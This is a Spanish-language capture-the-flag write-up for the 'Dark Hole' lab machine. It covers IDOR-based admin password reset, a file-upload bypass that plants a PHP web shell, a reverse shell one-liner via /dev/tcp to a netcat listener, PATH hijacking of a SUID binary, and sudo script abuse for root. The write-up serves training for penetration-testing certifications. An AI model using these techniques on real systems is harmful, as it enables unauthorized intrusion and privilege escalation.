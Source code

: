 # Dark Hole

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: Web Enumeration /
Abusing password change panel - Password change for admin user /
Abusing File Upload - Uploading malicious PHAR archive /
Abusing custom SUID binary - User Pivoting /
Abusing sudoers privilege - Python script manipulation [Privilege Escalation]

Te prepara para las **Certificaciones**: eWPT, eJPT<br>

![image](https://github.com/user-attachments/assets/d278684f-8615-4ff2-a1da-fdc0ac1327ac)<br><br>

# Reconocimiento

Encontramos la IP en la red usando `arp-scan`<br>

![image](https://github.com/user-attachments/assets/16666d53-8785-4032-826b-f73fea5239c1)<br><br>


Utilizando `nmap` encontramos los puertos mas comunes<br>

![image](https://github.com/user-attachments/assets/fb2b9f36-cdfd-4dcf-b973-a57b3d0a42ab)

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Una vez nos registramos en la pagina y nos logeamos, vemos que el identificador que nos da  es `id=2` pero si con `burpsuite` interceptamos esa petición ponemos `id=1` y cambiamos el password a `admin1`, lo que pasa es que cambiamos la contraseña del usuario `admin` y contraseña ahora `admin1`.<br>


![image](https://github.com/user-attachments/assets/bc9577a1-ae3c-47c8-9df5-b6c1acb77fe2)<br><br>

# Subida de archivo

Ataque de fuerza bruta con `burpsuite`, marcamos la extensión. (Código php malicioso)<br>

![image](https://github.com/user-attachments/assets/f8b66c53-cd4a-4ec8-b328-38aefa2f31fa)<br><br>


Agregamos los Payloads.<br>

![image](https://github.com/user-attachments/assets/88e1942c-af31-48b6-988f-36bb9c31b8af)<br><br>


En `Grep - Extract` seleccionamos `Sorry, Allow Ex : jpg,png,gif`<br>

![image](https://github.com/user-attachments/assets/f87e977f-2787-44e4-b11e-a4fbb8bc839d)<br><br>


Una vez damos `Start Attack` vemos todas las extensiones que se subieron.<br>

![image](https://github.com/user-attachments/assets/9f95a496-2196-45f8-92bc-435520af8fbe)<br><br>


Vamos al directorio `upload` y vemos el `cmd.phtml`<br>

![image](https://github.com/user-attachments/assets/14f23e96-b9d7-409e-a732-db3749fa7892)<br><br>


Ganamos acceso con una reverse shell `http://192.168.0.150/upload/cmd.phtml?cmd=bash -c "bash -i >& /dev/tcp/192.168.0.150/443 0>&1"`, y nos ponemos en escucha con `rlwrap nc -nlvp 443`<br>

![image](https://github.com/user-attachments/assets/4ec8d9d2-859a-457b-8053-70997280d3c1)<br><br>

# Escalada de privilegios

En `/home/john` vemos un script SUID `toto` que es una copia del comando `id`, Podemos intuir que no tiene la ruta ABSOLUTA del comando si no, la RELATIVA osea que se puede acontecer un `Path Hijacking`.<br>

![image](https://github.com/user-attachments/assets/a2b5de9c-a9ec-45a8-807b-c4813d4e18a7)<br><br>

En `/tmp` creamos un archivo `id` que contenga `bash -p`<br>

![image](https://github.com/user-attachments/assets/ef65085c-4a69-4d67-9d43-3372614664f3)<br><br>


Ahora ponemos el directorio `/tmp` en el path, para que busque el `id` por este directorio primero, ya que es una ruta relativa y no absoluta.<br>

![image](https://github.com/user-attachments/assets/a151bb8f-deb9-4747-8f66-9f997c427aa9)<br><br>

Al ejecutar el script `toto` nos convierte en `john`<br>

![image](https://github.com/user-attachments/assets/b11e14f4-bdb5-4599-b492-c12eb833bb17)<br><br>


Vemos que podemos ejecutar `file.py` como root<br>

![image](https://github.com/user-attachments/assets/2fc4a903-99d5-4729-a601-8ec7f9784bed)<br><br>

En `file.py` ponemos:<br>

![image](https://github.com/user-attachments/assets/b56be366-4524-4219-a000-67a73a901c74)<br><br>


Ejecutamos el `file.py` y me convierto en root:<br>

![image](https://github.com/user-attachments/assets/c95f9580-7f7c-454a-b27a-bcb57a9c8813)<br><br>

Flag final:<br><br>

![image](https://github.com/user-attachments/assets/8339600e-e039-4f41-9466-5707b56dc0fb)<br><br>


